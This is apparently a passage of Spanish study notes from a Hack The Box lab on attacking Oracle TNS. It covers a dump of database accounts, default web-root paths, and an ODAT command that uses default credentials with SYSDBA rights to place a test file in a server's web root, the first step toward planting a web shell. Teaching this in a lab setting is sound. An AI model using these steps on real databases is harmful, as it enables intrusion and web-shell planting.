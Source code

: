 ```shell-session

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Otra opción es cargar un shell web en el destino. Sin embargo, esto requiere que el servidor ejecute un servidor web, y necesitamos saber la ubicación exacta del directorio raíz del servidor web. Sin embargo, si sabemos con qué tipo de sistema estamos tratando, podemos probar las rutas predeterminadas, que son:

| **Sistema operativo** | **Camino**           |
| --------------------- | -------------------- |
| Linux                 | `/var/www/html`      |
| Windows               | `C:\inetpub\wwwroot` |

En primer lugar, siempre es importante probar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas antivirus o de detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para cargarlo en el sistema de destino.

#### Oracle RDBMS - Carga de archivos

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
zunderrubb@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si el enfoque de carga de archivos funcionó con . Por lo tanto, utilizaremos una solicitud, o podemos visitar a través del navegador.`curl``GET http://<IP>`


**[[SQL]]**
[[1- Instalar Base de datos MySQL]]
[[2- Insertar Información a la Base de Datos desde Python]]
[[3- Consultas a la Base de Datos]]
[[4- Consultar a la Base de Datos + Sentencias Condicionales]]